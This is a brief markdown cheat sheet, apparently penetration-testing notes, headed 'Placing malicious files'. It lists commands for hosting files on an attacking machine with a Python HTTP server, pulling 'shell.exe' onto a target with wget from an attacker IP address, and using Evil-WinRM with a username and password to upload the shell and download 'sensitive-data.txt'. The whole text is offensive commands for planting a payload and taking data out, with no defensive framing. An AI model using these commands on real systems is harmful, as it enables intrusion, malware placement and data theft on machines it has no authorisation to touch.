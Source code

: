 # Placing malicious files 

## Python server
From the attacking device:
```sh
python3 -m http.server
```

From the target:
```sh
wget http://10.10.10.10:8000/shell.exe -O shell.exe
```

## Evil-WinRM
From the attacking device:
```sh
evil-winrm -i 10.10.10.11 -u MyUsername -p MyPassword
```

From the target:
```sh
upload shell.exe
download sensitive-data.txt
```

